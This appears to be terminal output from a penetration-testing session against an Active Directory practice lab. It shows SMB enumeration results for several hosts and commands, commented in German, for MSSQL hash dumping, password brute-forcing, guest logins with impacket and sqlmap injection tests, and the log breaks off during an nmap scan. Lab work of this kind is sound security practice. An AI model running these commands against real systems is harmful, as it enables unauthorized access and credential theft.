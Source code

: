 SMB         192.168.20.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.20.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.20.22   445    CASTELBLACK      [-] Error creating DCERPC connection: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
SMB         192.168.20.23   445    BRAAVOS          [-] Error creating DCERPC connection: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
SMB         192.168.20.10   445    KINGSLANDING     [-] Error connecting: LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
SMB         192.168.20.12   445    MEEREEN          [-] Error connecting: LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
SMB         192.168.20.11   445    WINTERFELL       [-] Error connecting: LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
SMB         192.168.20.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.20.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.20.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.20.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
root@tala-HP-255-15-6-inch-G10-Notebook-PC:/home/tala# # Nmap SQL-Scripts mit Debug-Informationen
nmap -p 1433 --script ms-sql-info,ms-sql-config,ms-sql-dump-hashes,ms-sql-empty-password,ms-sql-brute 192.168.20.22,23 -d

# Impacket mssqlclient für direkte Verbindung
impacket-mssqlclient -windows-auth guest@192.168.20.22
impacket-mssqlclient guest@192.168.20.23

# SQLMap für SQL-Injection-Tests (falls Web-Interface gefunden)
sqlmap -u "http://192.168.20.23/login.asp" --dbs --batch
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-25 12:06 CEST
--------------- Timing report ---------------
  hostgroups: min 1, max 100000
  rtt-timeouts: init 1000, min 100, max 10000
  max-scan-delay: TCP 1000, UDP 1000, SCTP 1000
  parallelism: min 0, max 0
  max-retries: 10, host-timeout: 0
  min-rate: 0, max-rate: 0
---------------------------------------------
NSE: Using Lua 5.4.
NSE: Arguments from CLI: 
NSE: Loaded 5 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:06
Completed NSE at 12:06, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.